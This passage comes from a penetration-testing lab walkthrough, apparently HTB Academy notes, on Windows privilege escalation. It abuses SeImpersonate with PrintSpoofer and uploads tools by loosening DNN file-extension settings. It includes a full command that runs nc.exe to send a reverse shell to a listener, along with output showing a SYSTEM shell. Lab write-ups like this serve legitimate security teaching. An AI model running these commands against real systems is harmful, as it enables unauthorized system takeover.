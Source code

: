 <figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Privilege Escalation

Next, we need to escalate privileges. In the command output above, we saw that we have `SeImpersonate` privileges. Following the steps in the [SeImpersonate and SeAssignPrimaryToken](https://academy.hackthebox.com/module/67/section/607) section in the `Windows Privilege Escalation` module, we can work to escalate our privileges to SYSTEM, which will result in an initial foothold in the Active Directory (AD) domain and allow us to begin enumerating AD.

We'll try escalating privileges using the `PrintSpoofer` tool and then see if we can dump any useful credentials from the host's memory or registry. We'll need nc.exe on the DEV01 host to send ourselves a shell and the PrintSpoofer64.exe binary to leverage `SeImpersonate` privileges. There are a few ways we can transfer them up there. We could use the `dmz01` host as a "jump host" and transfer our tools through it via SCP and then start a Python3 web server and download them onto the DEV01 host using `certutil`.

An easier way would be to modify the DNN `Allowable File Extensions` once again to allow the `.exe` file format. We can then upload both of these files and confirm via our shell that they are located in `c:\DotNetNuke\Portals\0`.

Once uploaded, we can start a `Netcat` listener on the `dmz01` host and run the following command to obtain a reverse shell as `NT AUTHORITY\SYSTEM`:

```shell-session
c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"
```

We execute the command and get a reverse shell almost instantly.

```shell-session
root@dmz01:/tmp# nc -lnvp 443

Listening on 0.0.0.0 443
Connection received on 172.16.8.20 58480
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
ACADEMY-AEN-DEV01
```
